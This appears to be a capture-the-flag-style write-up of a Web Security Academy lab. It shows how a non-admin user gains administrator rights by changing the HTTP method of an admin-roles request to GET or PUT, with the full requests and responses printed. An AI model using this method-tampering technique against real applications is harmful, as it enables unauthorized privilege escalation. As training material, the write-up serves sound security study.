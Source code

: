 # Lab Description

This lab implements access controls based partly on the `HTTP method` of `requests`. You can familiarize yourself with the admin panel by logging in using the credentials `administrator:admin`.

To solve the lab, log in using the credentials `wiener:peter` and exploit the flawed access controls to **promote yourself to become an administrator**.

# Lab Solution

1. Log in using the admin credentials.
2. Browse to the admin panel, promote `carlos`, and send the HTTP request to Burp Repeater.

![Upgrade Carlos](testing-to-upgrade-user.png)

3. Logout as `administrator` and log in with user credentials `wiener:peter`. Capture the session cookie

4. Attempt to re-promote `carlos` with the non-admin user by copying that user's session cookie into the existing Burp Repeater request, and observe that the response says "Unauthorized".

5. Edit the `username` parameter to `wiener`

Now we have two options to try:
### Option 1 - Change to GET Method

6. Convert the request to use the `GET` method by right-clicking and selecting `"Change request method"`. Send request.

**HTTP Request**

```
GET /admin-roles?username=wiener&action=upgrade HTTP/2
Host: 0aff007c04cf317480b68f8400a300da.web-security-academy.net
Cookie: session=MyDSQ7JZxxn1ZMKRxcIfr2vatCwHEd1e
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0aff007c04cf317480b68f8400a300da.web-security-academy.net/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aff007c04cf317480b68f8400a300da.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

```
**HTTP Response**

```
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```

### Option 2 - Change to PUT Method

6. Exchange the `POST` to `PUT` and send request.

**HTTP Request**

```
PUT /admin-roles HTTP/2
Host: 0aa600a6037e113d801cfd8e00570031.web-security-academy.net
Cookie: session=MyDSQ7JZxxn1ZMKRxcIfr2vatCwHEd1e
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0aa600a6037e113d801cfd8e00570031.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aa600a6037e113d801cfd8e00570031.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

username=wiener&action=upgrade
```

**HTTP Response**

```
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```
